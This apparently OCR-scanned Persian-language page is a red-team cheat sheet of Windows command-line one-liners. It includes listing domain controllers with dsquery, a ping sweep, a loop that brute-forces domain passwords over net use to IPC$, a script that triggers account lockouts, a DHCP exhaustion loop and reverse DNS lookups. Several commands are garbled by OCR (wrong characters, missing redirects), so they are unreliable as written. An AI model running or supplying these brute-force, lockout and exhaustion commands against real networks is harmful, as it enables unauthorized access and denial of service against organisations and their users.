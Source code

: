 ### لیست dc های سایت

```text
dsquery "CN=Sites,CN=Configuration,DC=forestRootDomain" -filter
(objectCategory=Server)
```

## اسکریپت نویسی

متغیر های اسکریپت های bash باید به شکل روبرو جایگزاری شوند  %%
برای مثال %%i

### ایجاد ping sweep

```text
for /L %i in (10,1,254) do@ (for /L %x in (10,1,254) do@ ping -n 1 -w 100
10.10.%i.%x 2 nul 1 find "Reply" && echo 10.10.%i.%x live.txt)
```

### ایجاد loop درون file

```text
for /F %i in ( file ) do command
```

### عملیات brute forcer دامین

```text
for /F %n in (names.txt) do for /F %pin (pawds.txt) do net use \\DC01\IPC$
/user: domain \%n %p 1 NUL 2 &1 && echo %n:%p && net use /delete
\\DCOl\IPC$ NUL
```

### بسته شدن حساب\(lockout.bat\)

```text
@echo Test run:
for /f %%U in (list.txt) do @for /1 %%C in (1,1,5) do @echo net use \\WIN-
1234\c$ /USER:%%U wrongpass
```

### عملیت DHCP exhaustion

```text
for /L %i
1.1.1.%i
in (2,1,254) do (netsh interface ip set address local static
netrnask gw ID %1 ping 127.0.0.1 -n l -w 10000 nul %1)
```

### فرآیند DNS reverse lookup

```text
for /L %i in (100, 1, 105)
dns.txt && echo Server:
do @ nslookup 1.1.1.%i I findstr /i /c:''Name''
1.1.1.%i dns.txt
```
